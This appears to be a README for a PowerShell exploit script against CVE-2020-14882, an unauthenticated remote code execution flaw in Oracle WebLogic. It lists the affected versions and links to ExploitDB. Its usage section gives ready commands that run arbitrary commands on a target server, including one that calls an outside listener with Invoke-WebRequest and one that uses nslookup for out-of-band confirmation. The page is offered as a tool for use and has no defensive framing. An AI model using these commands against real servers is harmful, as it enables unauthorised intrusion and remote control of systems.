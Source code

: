 # Oracle WebLogic Unauthenticated RCE Exploit

This PowerShell script exploits CVE-2020-14882 to achieve unauthenticated remote code execution on Oracle WebLogic Server versions:
- 10.3.6.0.0
- 12.1.3.0.0
- 12.2.1.3.0
- 12.2.1.4.0
- 14.1.1.0.0

## Usage

```powershell
.\exploit.ps1 -target 'http(s)://target:7001' -command 'your_command'
.\exploit.ps1 -target 'http(s)://target:7001' -command 'nslookup your_Domain'
.\exploit.ps1 -target 'http(s)://target:7001' -command 'powershell.exe -c Invoke-WebRequest -Uri http://your_listener'
```

## References 
[Exploit on ExploitDB](https://www.exploit-db.com/exploits/49479)

